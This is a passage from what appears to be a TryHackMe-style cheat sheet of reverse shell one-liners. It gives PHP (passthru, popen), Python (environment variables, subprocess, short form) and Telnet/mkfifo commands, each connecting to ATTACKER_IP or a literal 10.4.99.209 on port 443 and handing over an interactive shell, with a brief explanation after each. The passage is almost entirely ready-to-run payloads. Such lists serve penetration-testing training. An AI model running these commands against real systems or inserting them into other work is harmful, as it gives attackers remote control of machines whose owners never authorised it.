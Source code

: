 ```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
The passthru function executes a command and sends raw output back to the browser. This is useful when working with binary data.


#### PHP Reverse Shell Using the popen Function

```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```
This reverse shell uses popen to open a process file pointer, allowing the shell to be executed.


### Python

Please note, the following snippets below require using python -c to run, indicated by the placeholder PY-C

#### Python Reverse Shell by Exporting Environment Variables

```bash
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
``` 
This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

#### Python Reverse Shell Using the subprocess Module

```bash
target@tryhackme:~$ PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```
This reverse shell uses the subprocess module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

#### Short Python Reverse Shell

```bash
PY-C 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
This reverse shell creates a socket (s), connects to the attacker, and redirects standard input, output, and error to the socket using os.dup2().

### Others

#### Telnet

```bash
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```
This reverse shell creates a named pipe using mkfifo and connects to the attacker via Telnet on IP ATTACKER_IP and port 443. 
